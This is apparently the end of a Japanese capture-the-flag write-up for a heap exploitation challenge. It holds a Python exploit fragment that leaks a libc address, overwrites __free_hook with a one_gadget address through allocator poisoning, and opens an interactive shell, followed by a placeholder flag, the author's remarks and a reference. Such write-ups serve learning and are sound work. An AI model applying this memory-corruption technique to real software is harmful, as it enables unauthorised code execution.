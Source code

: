 ```python
    create(s, 0x248)
    create(s, 0x248, payload)
    delete(s)
    libc_addr = u64(show(s).ljust(8, b"\x00")) - \
        main_arena_libc - 0x60  # count: 9
    free_hook_addr = libc_addr + free_fook_libc
    one_gadget_addr = libc_addr + one_gadget
    print(hex(libc_addr))
    create(s, 0x78, p64(free_hook_addr))
    create(s, 0x88, p64(one_gadget_addr))  # count: 11
    delete(s)  # count: 12

    s.interactive()

```

## Flag

`flag{g3n3ric_f1ag_1n_1e3t_sp3ak}`

## 感想

実戦で初Heap問題提出できて嬉しかったです。
ただ終了後に公式含め他のWriteup読んでも意味がわからなかったのでgdbでメモリ覗きながら検証する予定です。
ところでたったの12回で突破できたんですがもしかして最小手順じゃないでしょうか?

## 参考文献

* [yoshi-pwn 1Q - ふるつき](https://furutsuki.hatenablog.com/entry/2020/05/28/184656#CSAW-CTF-2019-Quals---popping-caps-1): これ読まなかったら多分`tcache_perthread_struct`に気付くことが無かった